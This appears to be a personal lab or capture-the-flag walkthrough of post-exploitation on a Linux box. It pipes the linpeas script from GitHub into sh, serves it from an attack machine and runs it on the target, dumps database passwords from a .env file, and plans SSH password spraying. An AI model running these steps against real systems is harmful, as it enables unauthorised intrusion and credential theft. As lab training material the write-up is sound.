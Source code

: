 My IP: `192.168.49.140`

Now run Linpeas
```sh
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
	No internet on device

Need to set up python server and download file from attack machine in the same directory as `linpeas.sh`
```sh
sudo python3 -m http.server 80
```

curl and wget exists on device

move to /tmp
```sh
cd /tmp
```

Download linpeas from my attack box
```
wget http://192.168.49.140/linpeas.sh
```

Add privileges
```sh
chmod +x linpeas.sh
```

And run
```
./linpeas.sh
```

Runs well. Now for interesting output
Passwords
	DB_CONNECTION=mysql
	DB_HOST=127.0.0.1
	DB_PORT=3306
	DB_DATABASE=development
	DB_USERNAME=web_admin
	DB_PASSWORD=1amD3vM@ch1n3!
	-rw-r--r-- 1 www-data www-data 123 Mar 22  2023 /var/www/html/.env
	DB_CONNECTION=mysql
	DB_HOST=127.0.0.1
	DB_PORT=3306
	DB_DATABASE=staging
	DB_USERNAME=web_admin
	DB_PASSWORD=L1ght@m3r@Acti0n!
Passwords:
	1amD3vM@ch1n3!
	L1ght@m3r@Acti0n!

Grab users from /home and spray ssh
```
cd home && ls -l
```
